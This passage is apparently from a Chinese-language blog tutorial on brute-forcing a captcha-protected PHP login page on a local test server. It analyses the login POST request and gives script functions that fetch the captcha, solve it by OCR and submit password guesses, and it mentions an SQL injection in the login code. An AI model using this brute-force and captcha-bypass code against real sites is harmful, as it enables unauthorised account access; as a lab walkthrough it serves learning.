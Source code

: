    这个也没啥，就是通过输入的信息，先判断验证码，然后SQL查询，但是这个地方存在一个SQL注入，这里我们也暂时不考虑这些问题！

   好了，到此为止我们的基础信息就已经完成了，下面我们就是要来实现爆破这个信息，这里我先事先说一下，我们的默认账号是：`admin`

   ### 爆破分析

   首先我们想要做暴力破解我们就需要来分析这个网站的一个信息，首先我们先捕获账号密码提交的HTTP数据包：

   ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332473.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

   是一个post封包：

   1. n为用户名
   2. p为密码
   3. yzm为验证码

   到这里我们基本上就算是了解了，但是我们还不知道关键信息

   相应结果：

   1. 密码错误响应结果：`error password`
   2. 验证码错误响应结果：`wrong captcha`
   3. 密码正确暂时不知道

   所以我们现在的逻辑就知道了，我们无非就是一个循环发送封包寻找关键字的一个程序罢了，只不过在这期间我们需要识别验证码。

   那么如何传递验证码呢？

   我们访问验证码的图片可以发现，他会响应一个session，这个session里面存储了真正的验证码结果，所以我们需要得到这个session！

   ### 编写代码

   首先我们先要能够现在下来验证码的图片，使用OCR支持库中的`DownLoadImg`库函数

   1. 第一个参数是网络图片地址
   2. 第二个参数是本地存放的路径
   3. 返回值是相应的协议头

   我们从响应头中截取关键的session，可以通过前后文本进行区分，所以我们可以编写如下的代码：

   ```javascript
   function GetPhpSession(header){
   	return GettextMiddle(header,"PHPSESSID=",";");
   }
   function GetCaptcha(path){
   	return GetPhpSession(DownLoadImg("http://127.0.0.1:8080/captcha.php",path));
   }
   ```

   这样子我们只需要调用`GetCaptcha`函数就可以下载验证码并且得到验证码的session

   得到了图片和session之后我们就需要识别验证码，发送数据包，判断响应！

   ```javascript
   function JudgeSuccess(username,password){
   	session = GetCaptcha("b.jpg");
   	captcha = ImgIdVC("b.jpg");
   	res = HttpPost("http://127.0.0.1:8080/testyzm.php","n=".username."&p=".password."&yzm=".captcha,"Cookie: PHPSESSID=".session);
   	if(StrFindStr(res[0],"wrong",0) != "-1"){
   		print("验证码错误:".captcha);
   		return 1;//验证码错误
   	}
   	if(StrFindStr(res[0],"error",0) != "-1"){
   		print("密码错误:"."用户名:".username."   密码:".password."   验证码:".captcha);
   		return 2;//密码错误
   	}
   	if(StrFindStr(res[0],"success",0) != "-1"){
   		print("爆破成功,用户名:".username."   密码:".password);
   		return 3;//账号密码正确
   	}
   ```